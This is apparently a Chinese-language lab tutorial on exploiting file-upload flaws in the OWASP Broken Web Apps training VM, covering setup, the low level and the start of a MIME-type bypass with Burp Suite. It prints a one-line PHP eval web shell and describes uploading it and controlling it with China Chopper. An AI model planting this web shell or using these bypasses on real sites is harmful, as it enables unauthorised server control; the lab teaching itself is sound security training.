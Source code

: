 ## 1.渗透环境搭建

目标靶机：OWASP基金会

https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.zip/download

准备渗透测试机器：

- kali linux
- windows ：用于提供中国菜刀、蚁剑等连接工具

---



## 2.文件上传漏洞

### 1. low级别（没有限制文件的上传类型）

a. 首先，登录owasp网页：

- 账号：admin   密码：admin

![image-20220831201237558](D:\Ronnie\.assets\image-20220831201237558.png)

b. 调整安全级别：

![image-20220831201546801](D:\Ronnie\.assets\image-20220831201546801.png)

c. 然后，准备恶意php代码：

- php代码的内容如下：

```php
<?php @eval($_POST['password']);?>
```

d. 上传准备好的php恶意代码文件：

![image-20220831202825534](D:\Ronnie\.assets\image-20220831202825534.png)

e. 登陆windows渗透测试机器，打开中国菜刀连接：

右击点击添加，

![image-20220831223738830](D:\Ronnie\.assets\image-20220831223738830.png)

进入文件管理，

![image-20220831224002683](D:\Ronnie\.assets\image-20220831224002683.png)

### 2. medium 中安全级别，定义允许上传文件的mime类型

- 后端代码限制了上传文件的<u>mime</u>类型：<u>image/jpeg</u>

- 使用<u>burpsuite</u>的代理拦截功能，修改文件的<u>mime</u>类型。
